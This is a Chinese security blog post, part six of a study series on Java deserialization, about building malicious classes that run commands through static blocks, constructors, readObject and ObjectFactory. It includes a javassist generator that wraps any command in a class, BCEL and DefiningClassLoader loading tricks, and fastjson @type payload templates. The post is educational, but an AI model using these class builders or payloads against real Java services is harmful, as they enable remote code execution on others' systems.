

Title: Java反序列化漏洞学习实践六：类的加载机制和恶意类构造
Date: 2018-11-26 18:04
Category: 漏洞实践
Tags: Java,反序列化,漏洞
Slug: 
Authors: bit4woo
Summary: 

### **0x0、背景说明**

在fastjson的反序列化漏洞PoC中，有一种是利用了static{}静态代码块在类的初始化（加载过程的一个环节）时会被执行这种特性。本文主要总结该思路中恶意类的构造方法和其触发方式，以全面了解fastjson反序列化漏洞PoC构造的过程。

本文是个人学习的记录总结，如有错误烦请[指出](https://github.com/bit4woo/code2sec.com/issues)，谢谢！

### **0x1、恶意类构造及其触发方式**


如思维导图所示，总结了可以构造恶意类的几种方式：

1. 利用静态代码块，在类的加载环节之一【初始化】时触发（重点）---触发方法Class.forName() 
2. 利用构造函数，在类实例化时触发（当然，实例化前必然先初始化）---触发方法newInstance()， new Evil()
3. 利用自定义函数，在函数被调用时触发 --- 触发方法 xxx.fun()  m.invoke()
4. 利用接口的重写方法，在函数调用时触发

**另外，通过类的加载流程可知：凡是能触发构造函数中代码的方法，都能触发静态代码块中的代码；凡是能触发自定义动态函数中代码的方法，都能触发静态代码块中的方法。**

demo代码：

```java
package evilClass;
import java.io.IOException;
import java.util.Hashtable;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;

public class  evilClassTest{
    public static void main(String[] argv){
        try {
			//触发方式1
        	Class<?> xxx = Class.forName("EvilClasses.evilClazz");//只会执行静态代码块中的命令。
        	evilClazz cs = (evilClazz)xxx.newInstance();//这里触发构造函数中的命令。
        	
        	Class<?> yyy = Class.forName("EvilClasses.evilClazz",true,ClassLoader.getSystemClassLoader());
        	//只会执行静态代码块中的命令,但它可以执行指定类加载器，更为灵活
        	evilClazz cs1 = (evilClazz)yyy.newInstance();//这里触发构造函数中的命令。
        	
        	
        	//触发方式2 xxxxClassLoader().loadClass();
    		Class<?> c1 = ClassLoader.getSystemClassLoader().loadClass("EvilClasses.evilClazz"); //这里不会触发静态代码块，因为是隐式加载方式。
    		c1.newInstance();//这里会触发静态代码块后，触发构造函数
			
    		
			//触发方式3，应该和方式2本质上是一样的！
        	new evilClazz();   //会执行静态代码块和构造函数中的命令
        	
        	
        	//触发方式4
        	new evilClazz().fun();//静态代码，构造函数，自定义函数都会触发。函数调用方式，不用多说
        	
        	//凡是能触发构造函数中代码的方法，都能触发静态代码块中的代码；凡是能触发自定义动态函数中代码的方法，都能触发静态代码块中的方法。
        	
        	//getObjectInstance()函数的代码如何触发？和web框架环境有关系，需要学习！！
        	
        	
		} catch (Exception e) {
			e.printStackTrace();
		}
    }
}

class evilClazz implements ObjectFactory{
	public static String aaa;
	
	//静态代码块命令执行
    static
    {
        try {
            Runtime.getRuntime().exec("explorer.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
	
	//构造函数命令执行
    evilClazz(){
        try{
            Runtime.getRuntime().exec("calc");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    
    //自定义函数
    public void fun() {
        try{
            Runtime.getRuntime().exec("notepad.exe");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    
    //getObjectInstance命令执行,是因为实现了ObjectFactory接口。
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
    	try {
			Runtime.getRuntime().exec("mstsc.exe");
		} catch (IOException e) {
			e.printStackTrace();
		}
        return null;
    }
}

```

 

### 0x2、用javassist字节码操作动态创建恶意类

如下代码主要目的有2：

1. 使用javassist动态创建恶意类，可以动态指定命令和类名称，更为灵活。
2. 尝试利用不同的类加载器，从不同来源获取类的byte[]流。 虽然来源不同，但触发机制和evilClassTest中还是一致的。

```java
package evilClass;
import java.io.File;
import java.io.IOException;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;

import com.sun.org.apache.bcel.internal.classfile.Utility;

import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import javassist.CtField;
import javassist.CtMethod;
import javassist.CtNewMethod;
import javassist.bytecode.AccessFlag;

public class createEvilClass {
	
	public static byte[] create(String className,String cmd) {
		
		ClassPool pool = ClassPool.getDefault();
		//会从classpath中查询该类
		CtClass evilclass = pool.makeClass(className);
		try {
			CtField f= new CtField(CtClass.intType,"id",evilclass);//获得一个类型为int，名称为id的字段
			f.setModifiers(AccessFlag.PUBLIC);//将字段设置为public
			evilclass.addField(f);//将字段设置到类上
			
			//添加静态代码块
			CtConstructor ci = evilclass.makeClassInitializer();
			ci.setBody("{try{Runtime.getRuntime().exec(\""+cmd+"\");}catch(Exception e){e.printStackTrace();}}");
			 
			//添加构造函数
			CtConstructor ctConstructor1 = new CtConstructor(new CtClass[]{}, evilclass);//指定参数构造器
	        ctConstructor1.setBody("{try{Runtime.getRuntime().exec(\""+cmd+"\");}catch(Exception e){e.printStackTrace();}}");//$1代表第一个参数，$2代表第二个参数，$0代表this
			evilclass.addConstructor(ctConstructor1);
			
			//添加方法
			CtMethod funM=CtNewMethod.make("public void fun(){try{Runtime.getRuntime().exec(\""+cmd+"\");}catch(Exception e){e.printStackTrace();}}",evilclass);
			evilclass.addMethod(funM);
			evilclass.setName(className);
			
			evilclass.writeFile("D:\\");//将生成的.class文件保存到磁盘
			byte[] b=evilclass.toBytecode();
			
			return b;
		}catch(Exception e) {
			e.printStackTrace();
		}
		return null;
	}
	
	public static void main(String[] args) {
		//!!!这里的测试，主要尝试利用不同的类加载器，获取不同来源的类byte[]!!!! 虽然来源不同，但触发机制和evilClassTest中还是一致的。//
		
/*		//从本地或者网络加载类，触发方式为loadClass()和newInstance();
		try {
			File file = new File("D:\\");
			URL url = file.toURL();
			URL[] urls = new URL[]{url};
			ClassLoader cl = new URLClassLoader(urls);
			Class cls = cl.loadClass("Evil");
			cls.newInstance();
			//
			
			
		} catch (Exception e) {
			e.printStackTrace();
		}*/
		
/*		//从本地或者网络加载类，但触发方式为Class.forName();
		try {
			File file = new File("D:\\");
			URL url = file.toURL();
			URL[] urls = new URL[]{url};
			ClassLoader cl = new URLClassLoader(urls);
			Class yyy = Class.forName("evil",true,cl);
			
		} catch (Exception e) {
			e.printStackTrace();
		}
		*/
		
		
		//从classname(类名称)中加载类，触发方式为Class.forName();
/*		//基于com.sun.org.apache.bcel.internal.util.ClassLoader的fastjosn的PoC就是利用了这种类加载机制和触发方式。
		//{{"@type":"com.alibaba.fastjson.JSONObject","c":{"@type":"org.apache.tomcat.dbcp.dbcp.BasicDataSource","driverClassLoader":{"@type":"com.sun.org.apache.bcel.internal.util.ClassLoader"},"driverClassName":"xxx"}}:"ddd"}
		//{{"@type":"com.alibaba.fastjson.JSONObject","c":{"@type":"org.apache.commons.dbcp.BasicDataSource","driverClassLoader":{"@type":"com.sun.org.apache.bcel.internal.util.ClassLoader"},"driverClassName":"xxx"}}:"ddd"}
		byte[] st = createEvilClass.create("calc");
		try {
			String classname = Utility.encode(st,true);
			System.out.println(classname);
			classname = "org.apache.log4j.spi$$BCEL$$"+classname;
			ClassLoader cls = new com.sun.org.apache.bcel.internal.util.ClassLoader();
			Class.forName(classname, true, cls);
		} catch (Exception e) {
			e.printStackTrace();
		}*/
		
		
		//从byte[]中加载类，newInstance()触发;
		//基于org.mozilla.javascript.DefiningClassLoader的 PoC可以在Commons Collections的漏洞中使用，因为它是invoke方式触发的，可以构造出来。
		//而在fastjson中，则由于格式的限制，不能构造
		try {
			byte[] st = createEvilClass.create("evil","calc");
			org.mozilla.javascript.DefiningClassLoader cl = new org.mozilla.javascript.DefiningClassLoader();
			Class c = cl.defineClass("evil", st);
			Method m = c.getMethod("fun");
			c.newInstance();//会触发2次
			//m.invoke(c.newInstance());//会触发2次
		} catch (Exception e) {
			e.printStackTrace();
		}
		
/*		//从byte[]中加载类，Class.forName()触发;
		//在fastjson的漏洞中，就是以Class.forName()的方式触发的，我们需要构造的是它的参数，而且这个参数要能通过fastjson的格式传入。
		//根据自己现有的知识，还不能完成将这个classLoader用于fastjson的PoC~~~
		try {
			byte[] st = createEvilClass.create("evil","calc");
			org.mozilla.javascript.DefiningClassLoader cl = new org.mozilla.javascript.DefiningClassLoader();
			Class c = cl.defineClass("evil", st);
			Class.forName("Evil",true,(ClassLoader)cl);//fastjson中存在的触发点是Class.forName()
		} catch (Exception e) {
			e.printStackTrace();
		}*/
	}
}

```

通过Bytecode Viewer查看生成的代码，并尝试加载，以测试是否正确。




### 0x3、反序列化过程到底做了什么

有了上面的知识，我们再次回到我们关注的重点---反序列化。反序列化的过程到底做了些什么呢？

反序列化过程 == 将字节流还原成对象实例的过程

反序列化过程 == 创建空对象+设置对象属性的过程（readObject()函数负责）

反序列化过程 == 类的加载+创建对象+调用readObject


什么时候调用构造函数，什么时候不需要调用：

the deserialization process populates the object tree by copying data from the serialized stream without calling the constructor. So an attacker can't execute Java code residing inside the constructor of the serializable object class.


https://www.ibm.com/developerworks/library/se-lookahead/index.html

通过数据流还原类的过程中，需要调用输入流的

resolveClass方法---


https://howtodoinjava.com/java/serialization/how-deserialization-process-happen-in-java/

https://docs.microsoft.com/en-us/dotnet/standard/serialization/steps-in-the-serialization-process

https://www.javaworld.com/article/2072752/the-java-serialization-algorithm-revealed.html

```
package Step1;

import java.io.File;
import java.io.FileInputStream;
import java.io.FileNotFoundException;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;

public class deserTest2 implements Serializable {  
	
    /**
	 * 创建一个简单的可被序列化的类，它的实例化后的对象就是可以被序列化的。
	 * 然后重写readObject方法，实现弹计算器。
	 */
	private static final long serialVersionUID = 1L;
	
	private int n;
	
	static {
        try {
			Runtime.getRuntime().exec("notepad.exe");
		} catch (IOException e) {
			e.printStackTrace();
		}
	}
    
    public deserTest2(int n){ //构造函数，初始化时执行
        this.n=n;
        try {
			Runtime.getRuntime().exec("mstsc.exe");
		} catch (IOException e) {
			e.printStackTrace();
		}
    }
    
    //重写readObject方法，加入了弹计算器的执行代码的内容
    private void readObject(java.io.ObjectInputStream in) throws IOException,ClassNotFoundException{
    	in.defaultReadObject();//调用原始的readOject方法
    	Runtime.getRuntime().exec("calc.exe");
    	System.out.println("test");
    }
    
    public static void main(String[] args) {
    	deserTest2 x = new deserTest2(5);//实例一个对象
    	operation2.ser(x);//序列化
    	operation2.deser();//反序列化
    }
}

class operation2 {
	public static void ser(Object obj) {
		//序列化操作，写数据
		try{
	        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("object.obj"));
	        //ObjectOutputStream能把Object输出成Byte流
	        oos.writeObject(obj);//序列化关键函数
	        oos.flush();  //缓冲流 
	        oos.close(); //关闭流
	    } catch (FileNotFoundException e) 
	    {        
	        e.printStackTrace();
	    } catch (IOException e) 
	    {
	        e.printStackTrace();
	    }
	}
	
	public static void deser() {
		//反序列化操作，读取数据
		try {
			File file = new File("object.obj");
			ObjectInputStream ois= new ObjectInputStream(new FileInputStream(file));
			Object x = ois.readObject();//反序列化的关键函数
			System.out.print(x);
			ois.close();
		} catch (FileNotFoundException e) {
			e.printStackTrace();
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
}

```


### 0x3、参考

[技术专栏 | 深入理解JNDI注入与Java反序列化漏洞利用](https://mp.weixin.qq.com/s?__biz=MjM5NzE1NjA0MQ==&mid=2651198215&idx=1&sn=929dd320ac2b17682e6c7d3f163f6985&chksm=bd2cf6a18a5b7fb758e4000c253adba90de67f72527ae1525a1d6722a09a85a06c8d800a08a7&scene=0#rd)

[defineClass在java反序列化当中的利用](https://xz.aliyun.com/t/2272)

[秒懂Java动态编程（Javassist研究）](https://blog.csdn.net/ShuSheng0007/article/details/81269295)